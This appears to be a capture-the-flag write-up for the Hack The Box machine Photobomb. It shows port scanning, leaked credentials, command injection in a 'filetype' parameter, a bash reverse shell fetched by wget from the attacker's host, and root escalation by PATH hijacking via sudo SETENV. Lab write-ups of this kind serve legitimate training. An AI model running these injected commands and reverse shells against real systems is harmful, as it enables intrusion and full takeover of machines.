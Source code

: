 **Target: 10.10.11.182 Photobomb**

**Initial Access:**\
nmap 10.10.11.182 -Pn --min-rate=5000 -p-\
output shows ports open: 22,80

Enumerating these open ports further with nmap:
![image](https://user-images.githubusercontent.com/93153300/198094317-0f16d654-f4d6-4cb6-8c48-91f5e4a5db94.png)
 
nmap shows that 10.10.11.182 tries to rediret to photobomb.htb.  So to make that redirect work add to file /etc/hosts:  10.10.11.182    photobomb.htb 						

Navigate to port 80 site  http://photobomb.htb  → Not much on the site.\
Site has a ‘click here’ url		 → clicking on it leads to a login page on directory /printer. \
We don’t have credentials, and trying some default credentials doesn’t work.  \
Directory brute forcing and wfuzz for subdomains doesn’t lead to anything of interest.  			

Viewing the source code on http://photobomb.htb shows:
![image](https://user-images.githubusercontent.com/93153300/198094435-390e3910-c178-4e45-b5fe-45666d164ca9.png)
 
Navigating to the directory it mentions, http://photobomb.htb/photobomb.js shows:		
![image](https://user-images.githubusercontent.com/93153300/198094493-c991b408-7b35-4d65-9d24-a04f37a68e88.png)
 
This gives credentials: username:pH0t0   password:b0Mb!			

Navigate to http://photobomb.htb/printer login page and enter the credentials, we are now logged in. The page shows pictures and a download photo to print:  	
![image](https://user-images.githubusercontent.com/93153300/198094673-58ae5451-0fac-457e-8d4e-cf56d30abd74.png)



Capturing the ‘Download photo to print’ request in burp suite shows:
![image](https://user-images.githubusercontent.com/93153300/198094722-6be55024-f70c-405f-923d-664d0cf8dcbe.png)

Fuzz the 3 parameters shown: photo, filetype, and dimensions. Let’s first fuzz for command injection.  The reason we will start with fuzzing for command injection is because http://photobomb.htb shows:
![image](https://user-images.githubusercontent.com/93153300/198095178-4536aedf-d496-4975-9782-ef9b6de7fb3e.png)

 
It seems to indicate possible command injection when it states “Your wish is its command”.  

Proof of concept  for command injection found:	\
The command injection is on the ‘filetype’ parameter.  Add after ‘filetype=jpg’ a semicolon and then whatever command you want to run, like so: filetype=jpg;ping 10.10.14.50 -c 4			

To capture the ping request run in terminal: tcpdump -i tun0 icmp	\
In the burp suite capture, make sure to url encode the command.  The parameters with our modification will look like this:	\
photo=eleanor-brooke-w-TLY0Ym4rM-unsplash.jpg&filetype=jpg;ping+10.10.14.50+-c+4&dimensions=30x20

Send the request in burp suite and we get back ping requests in tcpdump.  

Let’s use this to upload a file and then run it to get a reverse shell.\
First, open a netcat listener: nc -lvnp 443\
Next, create the file: 	echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.50/443 0>&1'" > test.sh\
Then, open a python server to host the file test.sh: python3 -m http.server 80\
In burp suite, change the ping command to wget http://10.10.14.50/test.sh and url encode it:
![image](https://user-images.githubusercontent.com/93153300/198095303-77178393-5469-470d-95e0-87ade3ffbbd6.png)

 
Now that it’s uploaded, give test.sh on the target execuable permissions.  Do this in burp suite, change the wget command to chmod +x test.sh and url encode it:
![image](https://user-images.githubusercontent.com/93153300/198095342-d6bdae76-9af1-4768-bafa-2384a63f944c.png)
 
Finally, run test.sh from the target to get a reverse shell on our netcat listener.  In burp suite, change the chmod command to ./test.sh:
![image](https://user-images.githubusercontent.com/93153300/198095402-a1427dbc-6173-4c8e-af20-c26efffe36f0.png)

We now have a shell as wizard, open /home/wizard/user.txt to get the flag. 
______________________________________________________________________
**Privilege Escalation:**\
sudo -l shows:
![image](https://user-images.githubusercontent.com/93153300/198095444-26dd6654-51c1-41ad-bab4-4dc2062fbb71.png)

  
SETENV can often be exploited.  SETENV means that when you run this sudo command, you have permission to also set the PATH it will use for this command.  If we can set the PATH, then we can use that to make the running file call a malicious file that we create, instead of the file it was supposed to use.  The last step that remains to see if we can use this SETENV to get root is to look over the file that will be run with sudo (/opt/cleanup.sh) and see if any file is called without using a complete path.  Opening /opt/cleanup.sh shows:  
![image](https://user-images.githubusercontent.com/93153300/198095465-e1f2bbe6-5b88-4e75-80fa-7c0681d47376.png)



The find command is not using a complete path, so let’s use SETENV to get root. 

Step 1: create a malicious file and give it the name find → echo -n “chmod 4755 /bin/bash” > /dev/shm/find.\
Step 2: give /dev/shm/find executable permissions  →   chmod +x /dev/shm/find \
Step 3: run the sudo command and give it the path to the malicious find command   → sudo PATH=/dev/shm:$PATH /opt/cleanup.sh \
Step 4: /bin/bash -p\
We have shell as root
![image](https://user-images.githubusercontent.com/93153300/198095522-9af6c384-0af6-43d5-9532-4bad28584e8d.png)

